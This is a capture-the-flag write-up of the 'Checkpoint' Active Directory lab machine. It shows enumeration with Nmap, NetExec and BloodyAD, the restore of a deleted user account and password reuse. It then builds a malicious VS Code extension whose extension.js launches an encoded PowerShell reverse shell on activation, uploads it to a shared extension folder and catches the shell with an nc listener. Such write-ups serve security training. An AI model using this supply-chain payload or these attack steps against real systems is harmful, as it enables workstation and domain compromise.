# Checkpoint


```
Difficulty: Medium  
OS: Windows Server 2025  
Services: AD DS, Kerberos, LDAP/LDAPS, SMB, WinRM, DNS, VMware Backups
```

## Offensive Operations

### Summary of Attack Chain


| Step | User / Access | Technique Used                                   | Result                                                                                            |
| :------: | :-------------------- | :--------------------------------------------------------------------- | :---------------------------------------------------------------------------------------------------------------------- |
|   1  | alex.turner   | **Initial Access (Valid Domain Credentials)**    | Gained authenticated access to Active Directory environment as a low-privileged domain user.      |
|   2  | alex.turner   | **LDAP Enumeration (NetExec)**                   | Discovered domain users and service accounts including `svc_deploy` and `ryan.brooks`.            |
|   3  | alex.turner   | **BloodHound ACL Analysis**                      | Identified `GenericWrite` over `mark.davies` and chained escalation path in AD.                   |
|   4  | alex.turner   | **GenericWrite Abuse (Deleted Objects)**         | Discovered and restored deleted user object `mark.davies` from AD tombstone container.            |
|   5  | mark.davies   | **Password Reuse Attack**                        | Successfully authenticated using reused credentials from `alex.turner`.                           |
|   6  | mark.davies   | **SMB Share Enumeration**                        | Gained READ/WRITE access to internal `DevDrop` VS Code extension repository.                      |
|   7  | mark.davies   | **Software Supply Chain Abuse (VSIX)**           | Uploaded malicious VS Code extension to trusted internal distribution pipeline.                   |
|   8  | ryan.brooks   | **Remote Code Execution (VS Code Context)**      | Achieved execution as `ryan.brooks` via automatic extension processing workflow.                  |
|   9  | ryan.brooks   | **LDAP/OU Delegation Enumeration**               | Identified write access over `OU=DMSAHolder` for delegated Managed Service Accounts.              |
|  10  | ryan.brooks   | **dMSA Abuse (BadSuccessor Technique)**          | Exploited delegated Managed Service Account migration to obtain `svc_deploy` credential material. |
|  11  | svc_deploy    | **SMB Enumeration (Privilege Escalation Pivot)** | Gained access to `VMBackups` share containing virtual machine snapshots.                          |
|  12  | svc_deploy    | **Memory Forensics (VMEM Analysis)**             | Extracted credential material from Windows Server memory snapshot using Volatility.               |
|  13  | svc_deploy    | **Credential Dumping (SAM/LSA extraction)**      | Recovered `Administrator` NTLM hash from offline memory artifacts.                                |
|  14  | Administrator | **Pass-the-Hash / SMB Authentication**           | Authenticated successfully to Domain Controller with recovered NTLM hash.                         |
|  15  | Administrator | **Domain Compromise**                            | Achieved full Tier-0 compromise and complete control of `checkpoint.htb` domain.                  |





### Reconnaissance

#### Port Scanning

An initial Nmap scan quickly reveals that the target is acting as an Active Directory Domain Controller. The presence of Kerberos, LDAP, SMB, and Global Catalog services strongly indicates a Windows domain environment.


Nmap (Network Mapper) is an open-source network discovery and security auditing tool used to identify hosts, open ports, running services, operating systems, and potential attack surfaces.

The flags used during enumeration are:

| Flag  | Description                                                        |
| ----- | -------------------------------------------------------------------|
| `-sC` | Executes the default NSE (Nmap Scripting Engine) scripts           |
| `-sV` | Performs service and version detection                             |
| `-T4` | Uses an aggressive timing template for faster scanning             |
| `-oA` | Saves output in all supported formats (Normal, XML, and Greppable) |


```bash
nmap -sC -sV -T4 -oA nmap_results 10.XXX.X.XXX


PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldaps
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```

[Nmap Results](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Checkpoint/nmap_results.nmap "Results")


| Port | Service            | Significance                                    |
| -----| -------------------| ----------------------------------------------- |
| 53   | DNS                | Domain name resolution for Active Directory     |
| 88   | Kerberos           | Primary authentication protocol used by AD      |
| 135  | MS-RPC             | Microsoft Remote Procedure Call endpoint mapper |
| 139  | NetBIOS            | Legacy Windows networking service               |
| 389  | LDAP               | Active Directory directory service              |
| 445  | SMB                | File sharing and domain communications          |
| 464  | Kpasswd            | Kerberos password management service            |
| 593  | RPC over HTTP      | Remote Procedure Call over HTTP                 |
| 636  | LDAPS              | Secure LDAP over SSL/TLS                        |
| 3268 | Global Catalog     | Forest-wide LDAP searches                       |
| 3269 | Global Catalog SSL | Secure forest-wide LDAP searches                |
| 5985 | WinRM              | Windows Remote Management (PowerShell Remoting) |

The combination of Kerberos, LDAP, SMB, and Global Catalog services confirms that the target is functioning as a Domain Controller.


Relevant findings:

```text
389/tcp  open ldap
Microsoft Windows Active Directory LDAP
(Domain: checkpoint.htb)

5985/tcp open http
Microsoft HTTPAPI httpd 2.0

smb2-security-mode:
Message signing enabled and required

clock-skew:
1h59m42s
```


```text
checkpoint.htb
```

The domain name can be added to `/etc/hosts` and will be used throughout the engagement for authentication and Kerberos-based operations.


```text
Message signing enabled and required
```

Because SMB signing is enforced, NTLM relay attacks using tools such as `ntlmrelayx` are not viable against this target.


```text
Clock Skew: 1h59m42s
```

Kerberos is highly sensitive to time synchronization and generally requires the client and Domain Controller clocks to be within a few minutes of each other.

Before performing any Kerberos-based attacks or authentication attempts, the attacking host's clock should be synchronized with the Domain Controller to avoid authentication failures.


The reconnaissance phase successfully identified the target as a Windows Server Active Directory Domain Controller operating under the `checkpoint.htb` domain. The presence of LDAP, Kerberos, SMB, and WinRM services provides several avenues for further enumeration. SMB signing eliminates relay-based attacks, while the observed clock skew indicates that time synchronization will be required before interacting with Kerberos services.


#### SMB Share Enumeration

With valid domain credentials available, SMB enumeration was performed to identify accessible network shares and potential locations containing sensitive data or deployment artifacts.


NetExec (formerly CrackMapExec) is a post-exploitation and Active Directory assessment tool commonly used during internal penetration tests. It supports authentication testing, share enumeration, command execution, credential validation, and numerous Active Directory reconnaissance tasks.

For this assessment, the `--shares` option was used to enumerate available SMB shares and determine the permissions assigned to the authenticated user.


```bash
netexec smb 10.XXX.X.XXX -u 'alex.turner' -p 'Checkpoint2024!' --shares
```




Relevant results:

```text
Share       Permissions   Remark
--       --   --
ADMIN$                    Remote Admin
C$                        Default share
DevDrop     READ          VS Code extensions share for approved
                           .vsix packages compatible with
                           VS Code engine 1.118.0
IPC$        READ          Remote IPC
NETLOGON    READ          Logon server share
SYSVOL      READ          Logon server share
VMBackups
```


| Share       | Access    | Notes                                               |
| ----------- | --------- | --------------------------------------------------- |
| `ADMIN$`    | No Access | Administrative share restricted to privileged users |
| `C$`        | No Access | Default administrative filesystem share             |
| `DevDrop`   | READ      | Repository for approved VS Code extensions          |
| `IPC$`      | READ      | Inter-Process Communication share                   |
| `NETLOGON`  | READ      | Domain logon scripts and authentication resources   |
| `SYSVOL`    | READ      | Group Policy and domain-wide configuration data     |
| `VMBackups` | No Access | Potentially sensitive backup storage location       |


One share immediately stood out during enumeration:

```text
DevDrop - VS Code extensions share for approved .vsix packages
compatible with VS Code engine 1.118.0
```

The description suggests that this share functions as a centralized repository for Visual Studio Code extensions. References to approved `.vsix` packages indicate that extensions may be distributed through an internal workflow or deployment process.

At this stage, the share appears to be related to developer tooling and software distribution, making it a potentially valuable area for further investigation.


The share was mounted using `smbclient` to inspect its contents.

```bash
smbclient '//10.XXX.X.XXX/DevDrop' -U 'alex.turner%Checkpoint2024!' -W checkpoint.htb
```

Directory listing:

```text
smb: \> ls

.   D        0
..  D        0

10459391 blocks of size 4096
2459736 blocks available
```



The share was currently empty and contained no uploaded extension packages.

Although no files were immediately available, the share's purpose remains noteworthy. A repository dedicated to distributing approved VS Code extensions suggests the existence of an internal development workflow that may become relevant later in the assessment.


Another share worth noting is:

```text
VMBackups
```

The authenticated user does not currently possess access to this location. However, backup repositories frequently contain sensitive information such as virtual machine images, memory dumps, configuration files, credentials, or archived system data.

If higher privileges are obtained later, revisiting this share may yield valuable information.

SMB enumeration revealed several standard Active Directory shares along with two particularly interesting locations:

* `DevDrop`, a repository used for distributing approved VS Code extension packages.
* `VMBackups`, a potentially sensitive backup storage share that is currently inaccessible.

While the DevDrop share was empty at the time of enumeration, its purpose suggests the presence of an internal software deployment process that may become a useful attack surface during later stages of the engagement.

### User Enumeration

After identifying the target as an Active Directory Domain Controller, LDAP enumeration was performed using the provided credentials to discover domain users and identify potential targets for further investigation.

#### Enumerating Domain Users

NetExec provides the ability to query LDAP and enumerate domain accounts using valid credentials.

```bash
netexec ldap 10.XXX.X.XXX -u 'alex.turner' -p 'Checkpoint2024!' --users | awk '/DC01/ && !/\[\*\]/ && !/\[\+\]/ && !/-Username-/ {print $5}'
```




[users.txt](https://raw.githubusercontent.com/0x0z0n/Research/refs/heads/main/posts/Checkpoint/users.txt "Results")

Extracting the usernames from the output reveals the following accounts:

```text
Administrator
Guest
krbtgt
alex.turner
ryan.brooks
svc_deploy
james.harper
sarah.mitchell
emily.carter
david.reynolds
jessica.coleman
lauren.flores
michael.torres
kevin.patterson
brian.jenkins
megan.perry
max.palmer
```


| Account         | Description                                                  |
| --------------- | ------------------------------------------------------------ |
| `Administrator` | Built-in domain administrator account                        |
| `Guest`         | Default guest account                                        |
| `krbtgt`        | Kerberos service account used for ticket signing             |
| `alex.turner`   | Initial authenticated user                                   |
| `svc_deploy`    | Service account likely associated with automated deployments |
| Remaining Users | Standard domain user accounts                                |


One account immediately stands out:

```text
svc_deploy
```

Service accounts often possess elevated permissions, access to automation workflows, deployment systems, scheduled tasks, or infrastructure management tools. Because of their role in enterprise environments, they frequently become attractive targets during Active Directory assessments.

At this stage no assumptions are made regarding its privileges, but the account is noted for future investigation.


LDAP enumeration successfully identified seventeen domain accounts, including several standard users and a deployment-related service account. The discovered usernames provide valuable targets for future authentication, authorization, and Active Directory relationship analysis.


#### Kerberos Authentication Preparation

Several upcoming enumeration techniques rely on Kerberos authentication. Before interacting with Kerberos services, the attacking host must be properly configured to communicate with the Domain Controller.

Three preparation steps were performed:

1. Generate a Kerberos configuration file.
2. Synchronize system time with the Domain Controller.
3. Configure local hostname resolution.


NetExec can automatically generate a valid Kerberos configuration file containing the domain realm and Key Distribution Center (KDC) information.

```bash
netexec smb 10.XXX.X.XXX -u 'alex.turner' -p 'Checkpoint2024!' --generate-krb5-conf krb5.conf
export KRB5_CONFIG=krb5.conf
```

Output:

```text 
krb5 conf saved to: krb5.conf

Run the following command to use the conf file:

export KRB5_CONFIG=krb5.conf
```

The generated configuration allows Kerberos-aware tools to correctly locate the domain's authentication infrastructure.


Kerberos is highly sensitive to clock differences between the client and the Domain Controller. By default, authentication requests may fail if the time difference exceeds a few minutes.

The local system clock was synchronized with the Domain Controller using `ntpdate`:

```bash 
sudo ntpdate 10.XXX.X.XXX
```

Output:

```text
CLOCK: time stepped by 1290.945871
```

This confirms that the attack host's clock was significantly out of sync and has now been adjusted to match the Domain Controller.


Kerberos tickets contain timestamps that are validated by the Domain Controller. Excessive clock drift can result in authentication failures and prevent Kerberos-based enumeration from functioning correctly.


To ensure proper domain and Kerberos name resolution, the Domain Controller's hostname was added to the local hosts file.

```bash
echo "10.XXX.X.XXX DC01 DC01.checkpoint.htb checkpoint.htb" | sudo tee -a /etc/hosts
```




This allows tools to correctly resolve:


without requiring external DNS configuration.


LDAP enumeration identified seventeen domain accounts and highlighted the `svc_deploy` service account as a potentially valuable target for future investigation.

Before continuing with Kerberos-based enumeration, the environment was properly configured by:

* Generating a Kerberos configuration file.
* Synchronizing system time with the Domain Controller.
* Updating local hostname resolution.

With these prerequisites completed, Kerberos-aware tools can now interact reliably with the `checkpoint.htb` domain.


### BloodHound Enumeration


Active Directory environments often contain complex permission relationships that are difficult to identify through manual enumeration alone. To visualize these relationships, BloodHound data collection was performed.

BloodHound is an Active Directory reconnaissance and attack path analysis tool that uses graph theory to identify privilege escalation paths within a domain. By mapping users, groups, computers, ACLs, and trust relationships, BloodHound can reveal attack paths that would otherwise remain hidden during traditional enumeration.

Common findings include:

* Delegated administrative privileges
* Misconfigured ACLs
* Kerberoastable accounts
* Shadow Credentials attack paths
* Group membership abuse
* Service account compromise paths
* Domain privilege escalation routes


The first attempt utilized the BloodHound Community Edition Python collector.

```bash
bloodhound-ce-python -c All --dns-tcp -d checkpoint.htb -ns 10.XXX.X.XXX -dc DC01.checkpoint.htb -u 'alex.turner' -p 'Checkpoint2024!' --use-ldaps --zip
```

```
bloodhound-ce-python \
  -d checkpoint.htb \
  -u alex.turner \
  -p 'Checkpoint2024!' \
  -dc dc01.checkpoint.htb \
  -ns 10.XXX.X.XXX \
  -c DCOnly \
  --auth-method ntlm
```

```
openssl s_client -connect dc01.checkpoint.htb:636 -brief
Connecting to 10.XXX.X.XXX
write:errno=104
[ble: exit 1]
```

However, the collector automatically resolved the Domain Controller to an IPv6 address:

```text
dead:beef::c966:3fc1:ac79:48be
```

Since IPv6 connectivity was unavailable through the VPN tunnel, the LDAP connection failed.

```text
ldap3.core.exceptions.LDAPSocketOpenError:
invalid server address
```

Because the collection process could not reach the Domain Controller over IPv6, an alternative approach was required.


To overcome the connectivity issue, data collection was performed using BloodyAD.

BloodyAD is an Active Directory assessment and privilege escalation framework capable of enumerating objects, modifying ACLs, abusing delegated permissions, and collecting BloodHound-compatible datasets.

The BloodHound collection was executed as follows:

```bash
bloodyAD -d checkpoint.htb --host DC01.checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get bloodhound
```




The resulting ZIP archive was imported into BloodHound for analysis.


After importing the collected data, several relationships became visible. Two Access Control List (ACL) entries proved particularly important and ultimately formed the foundation of the attack path.


BloodHound revealed the following relationship:

```text
ALEX.TURNER@CHECKPOINT.HTB --GenericWrite --> MARK.DAVIES@CHECKPOINT.HTB
```

This indicates that the current user possesses write permissions over the `MARK.DAVIES` user object.




A second ACL relationship was identified:

```text
RYAN.BROOKS@CHECKPOINT.HTB GenericWrite> SVC_DEPLOY@CHECKPOINT.HTB
```

This relationship indicates that if access to `RYAN.BROOKS` can be obtained, control over the `SVC_DEPLOY` service account may become possible.

Together, these two permissions create a potential privilege escalation chain:

```text
alex.turner-> mark.davies-> ryan.brooks-> svc_deploy
```


`GenericWrite` is an Active Directory permission that allows a principal to modify most writable attributes of a target object.

Although it does not provide full ownership, it is often considered one of the most dangerous delegated permissions because it enables multiple privilege escalation techniques.

#### Common Abuse Scenarios

| Technique                                 | Description                                                                |
| ----------------------------------------- | ------------------------------- |
| Service Principal Name (SPN) Modification | Add an SPN to perform Kerberoasting attacks                                |
| Shadow Credentials                        | Modify `msDS-KeyCredentialLink` for certificate-based authentication abuse |
| Logon Script Modification                 | Configure malicious scripts to achieve code execution                      |
| Password Reset Scenarios                  | Abuse writable attributes in certain configurations                        |
| Group Membership Manipulation             | Modify group objects when permissions allow                                |
| Delegation Abuse                          | Alter delegation-related attributes                                        |

The exact abuse technique depends on the type of object and the attributes that can be modified.


| Source Account | Permission   | Target Account | Significance                                                |
| -------------- | ------------ | -------------- | ----------------------------------------------------------- |
| `alex.turner`  | GenericWrite | `mark.davies`  | Direct control over a domain user object                    |
| `ryan.brooks`  | GenericWrite | `svc_deploy`   | Potential control over a deployment-related service account |

These relationships represent the first meaningful privilege escalation opportunities discovered within the domain.


BloodHound analysis revealed two critical ACL relationships that would not have been immediately obvious through standard enumeration alone.

The most important finding is a chained privilege escalation path involving:

```text
alex.turner -> mark.davies -> ryan.brooks -> svc_deploy
```

The presence of multiple `GenericWrite` permissions suggests that delegated access controls have been configured in a way that may allow privilege escalation through Active Directory object manipulation. Further investigation of these relationships becomes the primary focus moving forward.

### Lateral Movement

#### Discovering a Deleted Active Directory Object

Following the BloodHound findings, further investigation focused on the permissions available to the `alex.turner` account.

Using BloodyAD's writable object enumeration functionality, several objects were identified as writable by the current user.

```bash
bloodyAD --host DC01.checkpoint.htb -d checkpoint.htb -u alex.turner -p 'Checkpoint2024!' get writable
```




Relevant output:

```text
distinguishedName:
CN=Deleted Objects,DC=checkpoint,DC=htb
permission: WRITE

distinguishedName:
CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,
CN=Deleted Objects,
DC=checkpoint,
DC=htb
permission: WRITE
```


When an Active Directory object is deleted, it is not immediately removed from the directory database.

Instead, it is moved to the **Deleted Objects** container and remains recoverable for the duration of the tombstone lifetime (typically 180 days).

Deleted objects can often be recognized by:

```text
\0ADEL:<GUID>
```

which is appended to the object's name after deletion.

In this case, a deleted user account belonging to **Mark Davies** was identified.


The enumeration results revealed two important permissions:

| Object                     | Permission |
| -------------------------- | ---------- |
| Deleted Objects Container  | WRITE      |
| Mark Davies Deleted Object | WRITE      |

This means the current user has sufficient rights to interact with the deleted account object and potentially restore it.


Since write permissions were available on the deleted object, the account could be restored to its original Organizational Unit (OU).

The restoration was performed using BloodyAD.

```bash
bloodyAD \
-d checkpoint.htb \
--host dc01.checkpoint.htb \
-u alex.turner \
-p 'Checkpoint2024!' \
set restore \
'CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e,CN=Deleted Objects,DC=checkpoint,DC=htb'
```

Output:

```text
CN=Mark Davies\0ADEL:2217e877-e2a2-47d7-91d4-99ede36f367e
has been restored successfully under

CN=Mark Davies,
OU=Employees,
DC=checkpoint,
DC=htb
```

The deleted account was successfully restored and became an active domain user once again.


After restoring the account, authentication was tested using the password already known for `alex.turner`.


Password reuse is one of the most common weaknesses encountered in enterprise environments. Users frequently share passwords across multiple accounts, particularly when onboarding, recovering accounts, or moving between teams.

A simple authentication test confirmed that the restored account was using the same password.

```bash
netexec smb 10.XXX.X.XXX \
-u 'Mark.Davies' \
-p 'Checkpoint2024!'
```

Output:

```text id="c9n4vk"
[+] checkpoint.htb\Mark.Davies:Checkpoint2024!
```


The credentials were valid, providing access to the newly restored account.


#### Enumerating Access as Mark Davies

With control of the restored account, SMB shares were enumerated again to determine whether additional permissions had become available.

```bash
netexec smb 10.XXX.X.XXX -u 'Mark.Davies' -p 'Checkpoint2024!'

netexec smb 10.XXX.X.XXX -u 'Mark.Davies' -p 'Checkpoint2024!' --shares
```



Relevant results:

```text
Share       Permissions
--       --
DevDrop     READ, WRITE
VMBackups
```

Unlike `alex.turner`, the `Mark.Davies` account possesses write access to the `DevDrop` share.

```text
DevDrop
Permissions: READ, WRITE
```

This represents a significant escalation because the share was previously identified as a repository for approved VS Code extension packages.


Earlier enumeration revealed that:

* `DevDrop` is used to store approved `.vsix` packages.
* The share appears to be part of an internal software deployment workflow.
* Extensions are distributed to developers using VS Code 1.118.0.

Obtaining write access to a software distribution location often creates opportunities for supply-chain style attacks, particularly when files are automatically reviewed, synchronized, or executed by other users.

At this stage, the ability to upload content to the share becomes the most interesting new capability gained through the restoration of the account.


### Attack Chain Progression

The privilege escalation path has now advanced as follows:

```text
alex.turner->GenericWrite on Deleted Object->Restore mark.davies->Password Reuse->mark.davies->WRITE Access to DevDrop
```

Each step builds upon the previous BloodHound findings and moves the attack closer to the next privileged account in the identified escalation chain.


By leveraging write permissions over a deleted Active Directory object, the `Mark.Davies` account was successfully restored from the Deleted Objects container.

Authentication testing revealed password reuse, providing immediate access to the restored account. Re-enumeration of SMB shares uncovered a new privilege: **READ/WRITE access to the DevDrop share**, a repository used for distributing approved VS Code extensions.

This newly acquired access introduces a potential path into the organization's development workflow and becomes the primary avenue for further privilege escalation.

####  VS Code Extension Supply Chain Abuse


After gaining control of the `Mark.Davies` account, a review of accessible SMB shares revealed a significant change in permissions:

```text
DevDrop - READ, WRITE
```

Earlier enumeration identified `DevDrop` as a repository used for distributing approved Visual Studio Code extension packages (`.vsix`) compatible with VS Code engine version 1.118.x.

Because the share appeared to be part of an internal software distribution workflow, it became a potential avenue for achieving code execution in the context of another user.

```bash
mkdir evil-ext && cd evil-ext

mkdir -p extension
```


A VSIX package is the standard extension format used by Visual Studio Code and other Microsoft development tools.

```JSON(package.json)
{
  "name": "devtools-helper",
  "displayName": "DevTools Helper",
  "version": "1.0.0",
  "engines": { "vscode": "^1.118.0" },
  "activationEvents": ["*"],
  "main": "./extension.js",
  "contributes": {}
}
```

```JS(extension.js)
const cp = require('child_process');
exports.activate = function() {
    cp.exec('powershell -e <BASE64_ENCODED_REVERSE_SHELL>');
}

exports.deactivate = function() {}
```
Internally, a `.vsix` file is a structured archive containing:

* Extension metadata
* Configuration files
* JavaScript or TypeScript code
* Installation manifests
* Supporting resources

When installed, the extension's activation logic may execute within the VS Code environment.

```bash
zip -r ../evil.vsix '[Content_Types].xml' extension/
```




The DevDrop share description referenced:

```text
Approved .vsix packages
Compatible with VS Code engine 1.118.x
```

This suggested the existence of an internal extension deployment or approval process that periodically consumed packages from the share.


Using the newly acquired write permissions, a VSIX package was uploaded to the DevDrop share.

```text
Mark.Davies --> WRITE Access to DevDrop-> Upload Extension Package --> Internal Deployment Workflow
```

```bash
smbclient '//10.XXX.X.XXX/DevDrop' -u 'checkpoint.htb/Mark.Davies%Checkpoint2024!'
```

Inside the SMB session:

```bash
put evil.vsix
```




The package was successfully transferred to the share and became available for downstream processing.


Software distribution repositories frequently represent trust boundaries within enterprise environments.

If packages are automatically reviewed, synchronized, installed, or executed by other users, write access to such repositories can create opportunities for:

* Supply chain compromise
* Developer workstation compromise
* Automated execution paths
* Credential theft
* Lateral movement

The exact impact depends on how the organization consumes the distributed software.


```bash
nc -lvnp 4444
```


#### Obtaining Access as Ryan Brooks

After the package was uploaded, activity originating from another user account was observed.

This resulted in command execution occurring within the context of:

```text
ryan.brooks
```

At this stage the attack path had progressed to the next user identified during BloodHound analysis.


```text
alex.turner->Restore mark.davies->Password Reuse->mark.davies->WRITE Access to DevDrop->VS Code Extension Workflow->ryan.brooks
```


During BloodHound analysis, the following ACL relationship was previously identified:

```text
RYAN.BROOKS --GenericWrite--> SVC_DEPLOY     
```

Compromising the `ryan.brooks` account therefore represents a critical milestone in the escalation chain.


| Source User   | Permission   | Target       |
| ------------- | ------------ | ------------ |
| `ryan.brooks` | GenericWrite | `svc_deploy` |

This relationship suggests that additional privilege escalation opportunities may exist through the deployment service account.

